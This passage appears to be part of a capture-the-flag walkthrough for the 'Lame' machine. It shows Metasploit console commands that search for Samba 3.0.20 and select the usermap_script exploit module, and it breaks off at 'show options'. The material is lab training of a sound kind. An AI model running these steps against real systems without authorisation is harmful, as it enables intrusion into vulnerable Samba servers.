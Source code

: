 Let's again launch the `Metasploit` console:

```
msfconsole
```

When you are `in`, type:

```
search Samba 3.0.20
```

![Metasploit](./Screenshots/lamemetasploit7.png)

Copy path:

```
exploit/multi/samba/usermap_script
```

and type:

```
use exploit/multi/samba/usermap_script
```

then:

```
show options
```

![Metasploit](./Screenshots/lamemetasploit8.png)
